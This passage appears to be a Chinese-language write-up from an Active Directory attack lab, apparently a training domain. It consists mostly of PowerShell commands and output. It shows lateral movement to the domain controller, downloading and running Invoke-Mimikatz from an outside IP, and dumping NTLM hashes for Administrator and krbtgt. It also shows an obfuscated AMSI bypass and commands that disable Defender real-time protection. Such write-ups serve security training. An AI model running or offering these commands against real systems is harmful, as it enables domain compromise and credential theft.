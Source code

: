 PS C:\ad> Find-LocalAdminAccess
dcorp-sql1.dollarcorp.moneycorp.local
dcorp-std370.dollarcorp.moneycorp.local
dcorp-std367.dollarcorp.moneycorp.local
dcorp-dc.dollarcorp.moneycorp.local
dcorp-stdadm.dollarcorp.moneycorp.local
dcorp-adminsrv.dollarcorp.moneycorp.local
dcorp-appsrv.dollarcorp.moneycorp.local
dcorp-std359.dollarcorp.moneycorp.local
dcorp-std361.dollarcorp.moneycorp.local
dcorp-std364.dollarcorp.moneycorp.local
dcorp-std360.dollarcorp.moneycorp.local
dcorp-std363.dollarcorp.moneycorp.local
dcorp-std366.dollarcorp.moneycorp.local
dcorp-mgmt.dollarcorp.moneycorp.local
dcorp-mssql.dollarcorp.moneycorp.local
dcorp-std368.dollarcorp.moneycorp.local
dcorp-std369.dollarcorp.moneycorp.local
dcorp-ci.dollarcorp.moneycorp.local
```

可以横向到DC服务器

```
Enter-PSSession dcorp-dc.dollarcorp.moneycorp.local
```

再次收集这台计算机上所有用户的NTML
```
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1
 -UseBasicParsing)
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents>  Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

收集到域用户信息有：
```
mimikatz(powershell) # lsadump::lsa /patch
Domain : dcorp / S-1-5-21-1874506631-3219952063-538504511

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : ff46a9d8bd66c6efd77603da26796f35

RID  : 000001f7 (503)
User : DefaultAccount
LM   :
NTLM :


[dcorp-adminsrv]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]
[dcorp-adminsrv]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollecti
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> . .\Invoke-Mimikatz.ps1
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> powershell -ep bypass
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') +
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> Invoke-Mimikatz